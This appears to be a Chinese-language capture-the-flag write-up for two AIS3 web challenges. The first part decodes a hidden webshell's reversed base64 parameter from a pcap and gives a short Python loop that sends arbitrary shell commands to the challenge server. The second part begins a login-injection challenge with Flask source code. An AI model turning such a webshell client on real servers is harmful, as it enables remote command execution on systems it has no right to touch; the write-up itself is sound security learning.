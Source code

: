 接下來訪問 http://magic.ais3.org:8100/ 就能看到一個 CSS 跟 img 都爛掉的 ais3 官網，透過 pcap 裡面的路徑 `/index.php?page=bHMgLg%3d` 訪問，看不出什麼東西。但是依照直覺可以看出 `bHMgLg%3d` 應該是一段 base64 encode + URL Encode 後的字串，解碼後內容為 `ls .`，可以合理猜測這應該是一個 webshell。

這個時候有兩種解法，剛開始時我是用笨方法，後來才想到有更聰明的解法。先來分享笨解法。

因為最近在做的計畫跟分析 pcap 有關，所以我很直覺的想到說應該可以看 pcap 中的 string 成分進行統計，也就是輸入指令
`strings release.pcap | grep GET` ，就能看到所有 GET 的字串，在比眼力之下，就發現了有一個特別奇怪的 `Index.php`，他的 I 是大寫。

![](https://i.imgur.com/87UtA7U.png)


聰明的解法是， Wireshark 上方工具列有一個 Statistics，裡面就有 HTTP 的分析器，
![](https://i.imgur.com/h5gmuCM.png)

按下去後就可以看到 HTTP 的分析結果。
![](https://i.imgur.com/IlGDeER.png)

觀察後面的 payload 是先前的字串反轉，所以修改一下，把輸入轉 base64 再翻轉字串即可控制 shell！

最後，把上述的內容寫成腳本就完成ㄌ！
```python=
import requests
import base64

while True:
    a = input("> ").encode("ASCII")
    a = base64.b64encode(a)
    a = requests.utils.quote(a)
    a = a[::-1]
    res = requests.get("http://magic.ais3.org:8100/Index.php?page=" + a)
    print(res.text)
```
![](https://i.imgur.com/AS6XYRY.png)
FLAG : `AIS3{0h!Why_do_U_kn0w_this_sh3ll1!1l!}`

## **[Web]** Ӌҽէ Ⱥղօէհҽɾ Ꝉօցïղ φąցҽ!
這題其實算是滿老梗的 injection 題目，只是頁面超級ㄎㄧㄤ......
![](https://i.imgur.com/Icr8lVI.png)

這種題目解題的重點是，有提供原始碼就盡量在自己的電腦上架起來測。這邊雖然沒有提供 templates 的原始檔案，可以自己把 html 載下來簡單改一下就好，順便把ㄐㄅ的 CSS 給拔掉。

接下來在原始碼中插入一些 print 檢查輸入的東西長的樣子。

```python
@app.route("/")
def index():
    def valid_user(user):
        print(None == user['password'])
        return users_db.get(user['username']) == user['password']

    if 'user_data' not in session:
        return render_template("login.html", message="Login Please :D")

    user = json.loads(session['user_data'])
    # print(user)
    if valid_user(user):
        # print(user)
        if user['showflag'] == True and user['username'] != 'guest':
            return FLAG
        else:
            return render_template("welcome.html", username=user['username'])

    return render_template("login.html", message="Verify Failed :(")

```